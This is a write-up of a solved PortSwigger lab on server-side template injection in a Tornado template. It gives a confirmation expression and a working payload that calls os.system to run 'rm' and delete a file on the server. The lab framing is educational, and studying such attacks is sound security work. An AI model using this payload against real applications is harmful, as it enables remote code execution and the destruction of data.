


# Lab: Basic server-side template injection (code context)

## Lab Information

- **Category:** Server-Side Template Injection (SSTI)
- **Level:** Practitioner
- **Lab:** Basic server-side template injection (code context)
- **Status:** Solved

---

## Objective

Exploit a Server-Side Template Injection vulnerability in a Tornado template and execute arbitrary code to delete the file:

```text
/home/carlos/morale.txt
```

---

## Vulnerability Overview

The application uses a Tornado template to render the author's display name on blog comments. User-controlled input is embedded into the template without proper sanitization, allowing template expressions and Python code execution.

---

## Exploitation Steps

### 1. Confirm SSTI

The vulnerable parameter:

```http
POST /my-account/change-blog-post-author-display
```

Template expression used for testing:

```python
}}{{7*7}}
```

After reloading the blog post, the expression evaluated to:

```text
49
```

confirming SSTI.

### Screenshot



---

### 2. Execute Arbitrary Code

Using Tornado template syntax, Python code was executed to delete Carlos's file.

Payload:

```python

{{os.system('rm /home/carlos/morale.txt')}}
```

Injected through the vulnerable parameter after escaping the existing template context.

---

### 3. Trigger Template Execution

Reloading the blog page caused the template to render and execute the injected Python code.

The command successfully removed:

```text
/home/carlos/morale.txt
```

---

## Result

The file was deleted successfully and the lab was marked as solved.

### Screenshot



---

## Key Learning Points

- SSTI occurs when user input is embedded directly into server-side templates.
- Tornado templates allow execution of Python expressions and statements.
- Template injection can lead to Remote Code Execution (RCE).
- User-controlled template data should never be rendered without proper sanitization.

---

## References

- PortSwigger Web Security Academy
- Tornado Template Documentation
- OWASP Server-Side Template Injection Guide